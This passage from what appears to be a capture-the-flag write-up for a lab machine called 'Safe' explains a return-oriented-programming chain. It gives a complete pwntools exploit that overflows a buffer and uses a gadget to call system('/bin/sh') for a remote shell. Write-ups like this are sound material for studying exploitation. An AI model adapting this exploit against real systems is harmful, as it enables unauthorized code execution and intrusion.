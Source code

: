 I'll use the gadget at `0x401206` to put the address of `system` into `r13`. I don't care about `r14` and `r15` so I can put any dummy values here. The trick to get the address of `/bin/sh` is in the `sym.test` function. The first instruction pushes `rbp` (which contains the address of `/bin/sh`) on the stack so it updates the `rsp` address. The `mov rdi, rsp` instruction in the fonction takes care of copying the address of `rsp` into `rdi`. At that point I'm all set and when the function jumps to `r13` it will execute `system` with `/bin/sh` as the parameter.

The final exploit looks like this:

```python
from pwn import *

p = remote("safe.htb", 1337)
#p = process("./myapp")

context(os="linux", arch="amd64")
context.log_level = "DEBUG"

JUNK = "A" * 112
JUNK += "/bin/sh\x00" # RBP

"""
ROP chain to populate r13 with system()'s address:

0x0000000000401206: pop r13; pop r14; pop r15; ret;

sym.test() -> Need to JMP to address of system at the end
 (fcn) sym.test 10
   sym.test ();
           0x00401152      55             push rbp
           0x00401153      4889e5         mov rbp, rsp
           0x00401156      4889e7         mov rdi, rsp
           0x00401159      41ffe5         jmp r13
"""

payload = JUNK + p64(0x0000000000401206)    # ROP chain gadget
payload += p64(0x401040)     # pop r13
payload += "BBBBBBBB"        # pop r14
payload += "CCCCCCCC"        # pop r15
payload += p64(0x00401152)   # sym.test

p.recvline()
p.sendline(payload)
p.interactive()
```

Running the exploit, I'm able to land a shell on the box:
